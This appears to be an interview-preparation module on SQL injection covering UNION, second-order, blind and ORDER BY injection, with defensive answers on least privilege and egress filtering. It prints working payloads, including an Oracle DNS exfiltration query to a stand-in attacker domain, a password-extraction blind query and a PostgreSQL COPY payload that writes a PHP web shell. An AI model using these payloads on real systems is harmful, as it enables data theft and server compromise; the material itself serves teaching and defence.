

# Web Security Interview Preparation: Module 03 - SQL Injection (SQLi)

Welcome to the expert-level interview preparation guide for SQL Injection (SQLi). This module dives deep into database manipulation, testing your knowledge of backend architecture, complex injection techniques (such as Time-based, Error-based, and Union-based), and database-specific exploitation vectors.

SQL Injection remains a critical vulnerability, often leading to total database compromise, data exfiltration, and occasionally Remote Code Execution (RCE) directly on the backend server.

---

## Formal Technical Questions

### Q1: What are the specific structural requirements to successfully execute a UNION-based SQL Injection? How do you deduce these requirements during a black-box test?
**Answer:**
A UNION-based SQL injection leverages the `UNION` operator to combine the results of the original query with the results of an injected malicious query. For this to work, two strict database rules must be met:
1. **Column Count:** The injected query must return the exact same number of columns as the original query.
2. **Data Type Compatibility:** The data types of the corresponding columns in both queries must be compatible (e.g., string to string, integer to integer).

*Black-Box Deduction Process:*
- *Finding Column Count:* I use the `ORDER BY` clause. By incrementally increasing the index (e.g., `' ORDER BY 1--`, `' ORDER BY 2--`, `' ORDER BY 3--`), the application will function normally until I hit an index that exceeds the number of columns. An error or missing data on `' ORDER BY 4--` implies there are exactly 3 columns.
- *Finding Data Types:* Once the count is known, I construct a null-based union query: `' UNION SELECT NULL, NULL, NULL--`. I sequentially replace each `NULL` with a string value like `'A'` (`' UNION SELECT 'A', NULL, NULL--`). If the application loads correctly, column 1 accepts strings. If it errors out, column 1 expects an integer or date. This allows me to map the exact structure required to extract schema information.

### Q2: Explain Second-Order SQL Injection. Why does this vulnerability frequently bypass initial security audits and Web Application Firewalls (WAFs)?
**Answer:**
Second-Order SQL Injection occurs when user input is correctly sanitized or parameterized upon initial insertion into the database, but is later retrieved and used unsafely in a entirely different SQL query.
- *The Mechanism:* 
  1. **Insertion:** An attacker registers a username: `admin' --`. The application uses parameterized queries to insert this safely. The database explicitly stores the string `admin' --`.
  2. **Execution:** The attacker logs in. The backend application retrieves the username `admin' --` from the database. It trusts this data because it came from the database. It then concatenates it into a new query: `UPDATE profiles SET active=1 WHERE user='admin' --'`. The `--` comments out the rest of the query, fundamentally altering the logic.
- *Why it bypasses WAFs:* WAFs monitor incoming HTTP traffic for malicious signatures. Because the initial payload `admin' --` is short and resembles legitimate text, the WAF might ignore it. The actual execution happens entirely on the backend later on, without a new HTTP request carrying an attack payload, rendering the network-based WAF completely blind to the exploitation.

### Q3: How do Boolean-based Blind SQLi and Time-based Blind SQLi differ in their exfiltration methodologies? When would you strictly be forced to use Time-based?
**Answer:**
Blind SQL Injection occurs when the application is vulnerable to SQLi, but its HTTP responses do not contain the results of the relevant SQL query or database errors.
- **Boolean-based Blind:** The attacker infers data by asking the database True/False questions. For example: `id=1' AND (SELECT SUBSTRING(version(),1,1))='8'--`. If the application returns the normal page, the condition is TRUE (version starts with 8). If it returns a 404, missing content, or a generic error, the condition is FALSE.
- **Time-based Blind:** The attacker infers data by forcing the database to pause execution based on a condition. `id=1'; IF (SUBSTRING(version(),1,1)='8') WAITFOR DELAY '0:0:5'--`. 
- *When to use Time-based strictly:* Time-based is mandatory when the application's response is entirely asynchronous, decoupled, or universally identical regardless of database logic. For instance, an email subscription form that always says "Thank you!" regardless of whether the email existed or failed to insert. Since there is zero difference in HTTP response content or status codes, manipulating the response *time* is the only verifiable side-channel.

---

## Scenario-Based Questions

### Scenario 1: Out-of-Band (OOB) Exfiltration over DNS
**Prompt:** You are on an engagement testing an Oracle Database backend. You have confirmed a Blind SQL Injection vulnerability, but aggressive WAF rate-limiting is making Boolean and Time-based extraction impossibly slow (it would take weeks to extract the user table). The database server has outbound internet access. How do you vastly accelerate data extraction?

**Expert Answer:**
To bypass the agonizing slowness of Blind SQLi, I would pivot to Out-of-Band (OOB) SQL Injection leveraging DNS exfiltration. Oracle databases possess robust built-in packages like `UTL_HTTP` or `UTL_INADDR` that can resolve network addresses.
1. **Setup:** I configure an authoritative DNS server under my control (e.g., `attacker-ns.com`) to log all incoming DNS queries.
2. **Payload Construction:** I craft a payload that concatenates the target data I want to extract into a subdomain string, and then forces the database to resolve it.
   - Example payload: `SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT username FROM users WHERE rownum=1) || '.attacker-ns.com') FROM DUAL;`
3. **Execution:** The Oracle database evaluates the inner query, extracting the username (e.g., `sysadmin`). It appends it to the domain, resulting in `sysadmin.attacker-ns.com`. To execute `GET_HOST_ADDRESS`, the database performs a DNS lookup.
4. **Exfiltration:** My DNS server receives a query for `sysadmin.attacker-ns.com`. I parse my DNS logs, instantly capturing the data. This turns a slow, bit-by-bit extraction into a massive, chunked extraction bypassing WAF HTTP rate limits entirely.

### Scenario 2: Exploiting the ORDER BY Clause
**Prompt:** You are analyzing a web application that sorts products. The URL is `store.com/items?sort=price`. The application uses parameterized queries for user authentication, but you suspect the `sort` parameter is vulnerable. How do you test for and exploit SQLi in an `ORDER BY` clause, and why can't parameterized queries secure this specific parameter?

**Expert Answer:**
Parameterized queries (Prepared Statements) secure data by strictly treating input as literal values (strings/ints), not executable code. However, database engines do not allow parameterization of table names or column identifiers. You cannot do `ORDER BY ?`. Therefore, developers often fallback to unsafe string concatenation for sort parameters.
1. **Testing:** To verify injection, I attempt to alter the sorting logic using conditional statements. I inject `store.com/items?sort=(CASE WHEN (1=1) THEN price ELSE name END)`. If the items sort by price, and changing it to `(1=2)` sorts by name, I have confirmed boolean execution within the `ORDER BY` clause.
2. **Exploitation:** Because data extraction isn't directly reflected in the output (it only changes the sort order), I treat it as a Boolean Blind SQLi. 
   - Payload: `sort=(CASE WHEN (ASCII(SUBSTRING((SELECT password FROM admins LIMIT 1),1,1)) > 100) THEN price ELSE name END)`
   - If the first character's ASCII value is > 100, the page sorts by price. If not, it sorts by name. I can script this logic to iteratively extract the entire admin password simply by observing the order of the items on the page.

---

## Deep-Dive Defensive Questions

### D1: Why is Defense in Depth critical for mitigating SQLi? Describe a holistic defense architecture spanning the code, database, and network layers.
**Answer:**
A single point of failure is unacceptable for database security. 
- **Code Layer (Primary Defense):** Enforce the use of Object-Relational Mapping (ORM) frameworks (like Hibernate, Entity Framework) or strict Prepared Statements for every single query. Input validation (Allowlisting) must be enforced for identifiers (like `ORDER BY` columns) that cannot be parameterized.
- **Database Layer (Principle of Least Privilege):** The application should connect to the database using an account with minimal privileges. The web app user must not have `DROP TABLE` permissions, access to system tables (`information_schema`), or execution rights for stored procedures like `xp_cmdshell`.
- **Network Layer:** Implement egress filtering on the database server. A database server should never be able to initiate outbound connections to the internet, nullifying Out-of-Band (OOB) exfiltration and RCE payload downloads. A robust WAF should inspect incoming traffic for SQL keywords and anomalies.

### D2: Developers often argue that utilizing Stored Procedures guarantees immunity against SQL injection. Explain structurally why this is a dangerous misconception.
**Answer:**
Stored procedures only provide security if they are written securely. The misconception arises because calling a stored procedure *can* be parameterized (e.g., `EXEC get_user ?`). 
However, the vulnerability often resides *inside* the stored procedure itself. If the procedure takes the input parameter and uses dynamic SQL execution (like `EXEC()` or `sp_executesql` in MSSQL) via concatenation, the application is completely vulnerable.
- *Vulnerable Example inside DB:* 
  ```sql
  CREATE PROCEDURE GetUsers (@sortCol VARCHAR(50)) AS
  BEGIN
    DECLARE @query NVARCHAR(MAX)
    SET @query = 'SELECT * FROM users ORDER BY ' + @sortCol
    EXEC(@query)
  END
  ```
Even if the application securely parameterizes the call to `GetUsers`, the dynamic concatenation inside the database engine executes the injected payload, resulting in full SQL Injection.

---

## Real-World Attack Scenario

### SQLi to RCE via PostgreSQL Advanced Exploitation
During an assessment, an application endpoint `/generate_report?user_id=10` was found vulnerable to Error-based SQL Injection on a PostgreSQL backend. 
Due to strict application-layer authorization, simply extracting administrative passwords yielded no access, as the admin portal was IP-restricted to the internal network. The goal shifted to Remote Code Execution.

Enumeration via SQLi revealed that the database was running as the `postgres` user, an excessive privilege configuration. 
Using the SQL Injection vulnerability, I executed stacked queries (supported by the PostgreSQL driver in this context). 
The attack chain involved:
1. **Writing a Webshell:** PostgreSQL allows the execution of `COPY ... TO` commands, which write query output to a file on the local disk.
2. **Payload Execution:** I injected the following stacked query:
   `10; COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php';--`
3. **Pivoting:** Navigating to `https://target.com/shell.php?cmd=id` confirmed successful RCE (`uid=postgres`). 
This vulnerability resulted in a complete server compromise, allowing lateral movement into the internal network, completely bypassing the external IP restrictions of the admin portal.

---

## Custom ASCII Diagram: Boolean Blind Exfiltration Engine



---

## Chaining Opportunities
SQL Injection provides the ultimate backend access, acting as a force multiplier for chaining:
1. **SQLi to Path Traversal / LFI:** Using `LOAD_FILE('/etc/passwd')` in MySQL to read sensitive local files via the database execution context.
2. **SQLi to RCE via xp_cmdshell:** In MSSQL environments, enabling `xp_cmdshell` via stacked queries to execute raw Windows command prompt commands.
3. **SQLi to Deserialization:** Modifying serialized data objects stored within the database. When the application extracts and deserializes the modified object, it triggers an insecure deserialization payload.

---

## Related Notes
- [[01 - Intro and Reconnaissance]]
- [[06 - Object Relational Mapping (ORM) Vulnerabilities]]
- [[14 - Database Privilege Escalation]]
- [[18 - Out-of-Band (OOB) Exploitation Frameworks]]

